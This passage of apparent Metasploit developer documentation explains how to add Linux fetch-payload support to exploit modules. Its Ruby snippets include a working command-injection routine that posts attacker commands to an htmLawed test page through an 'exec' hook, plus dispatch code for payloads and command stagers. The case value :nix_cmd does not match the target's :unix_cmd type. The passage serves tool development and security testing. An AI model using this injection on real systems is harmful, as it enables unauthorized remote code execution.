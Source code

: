 For the `execute_command` method, nothing changes:

```ruby
def execute_command(cmd, _opts = {})
populate_values if @sid.nil? || @token.nil?
uri = datastore['URIPATH'] + '/vendor/htmlawed/htmlawed/htmLawedTest.php'

    send_request_cgi({
      'method' => 'POST',
      'uri' => normalize_uri(uri),
      'cookie' => 'sid=' + @sid,
      'ctype' => 'application/x-www-form-urlencoded',
      'encode_params' => true,
      'vars_post' => {
        'token' => @token,
        'text' => cmd,
        'hhook' => 'exec',
        'sid' => @sid
      }
    })
end
```

The only change in the exploit method is the use of the more generic `Type` value in the case statement.  Nothing else
needs to change.

```ruby
  def exploit
    print_status("Executing #{target.name} for #{datastore['PAYLOAD']}")
    case target['Type']
    when :nix_cmd
      execute_command(payload.encoded)
    when :linux_dropper
      execute_cmdstager
    end
  end
```

If you have an exploit that already supports Unix Command payloads and you'd like it to support Linux Command payloads
like Fetch Payloads, you can simply add the `linux` value to the platform array:

```ruby
'Nix Command',
  {
    'Platform' => [ 'unix', 'linux' ],
    'Arch' => ARCH_CMD,
    'Type' => :unix_cmd,
  }
```

## Supported Commands
### Windows And Linux Both
#### `CURL` 
cURL comes pre-installed on Windows 10 and 11, and it is incredibly common on linux platforms and the options are very
standardized across releases and platforms.  This makes cURL a good default choice for both Linux and Windows 
targets.  All options and server protocol types are supported by the cURL command.
